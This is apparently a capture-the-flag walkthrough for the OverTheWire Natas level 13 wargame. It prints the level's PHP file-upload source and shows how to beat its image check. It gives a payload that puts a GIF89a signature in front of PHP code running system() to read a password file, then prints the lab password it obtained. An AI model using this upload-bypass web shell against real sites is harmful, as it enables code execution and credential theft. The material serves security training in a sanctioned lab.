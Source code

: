 `Link` : `https://overthewire.org/wargames/natas/natas13.html`

## [𝐖𝐚𝐥𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟐 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟑
## 𝐆𝐢𝐯𝐞𝐧

- Username: natas13
- URL:      `http://natas13.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:    `http://natas13.natas.labs.overthewire.org`
- `view pagesource`

```
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
```

- Notice: `} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {`
- Let's check what `exif_imagetype` means
```
exif_imagetype() reads the first bytes of an image and checks its signature.

Source: https://www.php.net/manual/en/function.exif-imagetype.php
```

- Means, if we can manipulate our payload in a way which contains image signature at the beginning & payload at the end, we will be able to exploit it.

```
GIF89a;

<?php
	// #1 echo "php upload possible!" 
	// #2 system('find / -name natas13')
	// #3 exploit
	system('cat /etc/natas_webpass/natas14')
?>
```

- Upload the payload, change extension to php & boom! solved

<div align=center>
  <img src=https://user-images.githubusercontent.com/68887544/149267813-d44a9b57-7264-49c0-adfa-65651c21b435.png width=600px>
</div>

- `GIF89a; Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 `
